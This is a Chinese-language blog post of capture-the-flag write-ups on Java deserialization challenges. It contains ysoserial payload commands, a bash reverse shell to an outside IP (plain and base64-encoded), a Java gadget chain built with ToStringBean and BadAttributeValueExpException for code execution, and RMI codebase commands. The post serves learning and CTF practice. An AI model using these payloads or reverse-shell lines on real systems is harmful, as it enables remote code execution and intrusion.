 ```yaml
---
title: java题目
date: 2022-03-26 16:09:58
tags:
      - java
---
```




## [网鼎杯 2020 朱雀组]Think Java

<!--more-->

> 血的教训
>
> 千万不要用powershell使用ysoserial,生成的payload直接乱码呜呜



本题起初找不到入口,看的别人的wp做的,也学习到了很多东西

生成URLDNS payload

`java -jar ysoserial.jar URLDNS "http://3s8kl8.dnslog.cn" > url.bin`

按照其token规则进行编码

```python
import base64
file = open(r"F:\TOOLS\ser\url.bin","rb")
now = file.read()
ba = base64.b64encode(now)

print("Bearer "+ba.decode('unicode_escape'))
file.close()
```

在`/common/user/current`发送

![image-20220326161131867](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/image-20220326161131867.png)

dnslog收到请求

![image-20220326161147299](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/image-20220326161147299.png)

`bash -i >& /dev/tcp/121.40.113.226/5555 0>&1`反弹shell的命令要进行一次转换

![image-20220326162201101](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/image-20220326162201101.png)



接着生成反弹shell的反序列化字节码文件

`java -jar ysoserial.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNDAuMTEzLjIyNi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > shell.bin`

反弹shell尝试了两次才成功

## ezgaeget（东华杯）

本题是一道关于java反序列化的题目

题目有一个jar包,通过Java Decompiler打开,查看里面的类,发现一个类ToStringBean,它的toString方法不但能从字节码加载类,并且还能帮助类继续实例化,所以这就是代码执行的地方了,想办法将ClassByte换成恶意类的字节码即可

![image-20220318151601653](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/image-20220318151601653.png)

并且在IndexController这个Controller类中发现了能进行反序列化的地方

![image-20220318151834640](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/image-20220318151834640.png)

java中ObjectInputStream.readObject其实就是反序列化的方法



所以现在思路确定下来,首先构造恶意类,让其中的readObject可以调用参数的toString方法

```java
public static void main(String[] args) throws Exception{

        //首先通过字节码获取对应类的字节码
        byte[] bytes= Files.readAllBytes(Paths.get("E:\\javaSecurity\\cc\\target\\test-classes\\test.class"));
        ToStringBean toStringBean = new ToStringBean();
        Class<? extends ToStringBean> toStringBeanClass = toStringBean.getClass();
        Field classByte = toStringBeanClass.getDeclaredField("ClassByte");
        classByte.setAccessible(true);
        classByte.set(toStringBean,bytes);
        //现在代码执行的地方已经封装好了,接下来就是构造反序列化时候能调用toString,恰好BadAttributeValueExpException的readObject会调用toString

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        //此处有个坑,就是BadAttributeValueExpException的构造方法会先执行toString,所以通过反射在实例化后再次修改
        Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
        Field val = badAttributeValueExpExceptionClass.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        //构造完成,接下来只需要构造base64编码的字节流
        
        ByteOutputStream byteOutputStream=new ByteOutputStream();
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(byteOutputStream);
        objectOutputStream.writeUTF("gadgets");
        objectOutputStream.writeInt(2021);
        objectOutputStream.writeObject(badAttributeValueExpException);
        byte[] bytes1=byteOutputStream.toByteArray();
        
        System.out.println(Tools.base64Encode(bytes1));
       
    }
```

起初没有保证序列化之前的包名一致,导致无法正常反序列化,反序列化的时候必须保证反序列化的类所在的包名一样

还有一个坑点,就是base64在传的时候,记得先urlencode一次,防止将+当成空格去传,但是解码的时候又把空格当成base64来解码,所以会报`Illegal base64 character 20`错误

传入data为打印出的字符串,成功执行代码



`java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://121.40.113.226:5555/ RMIClient`



```
java -Djava.rmi.server.hostname=121.40.113.226 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer

```

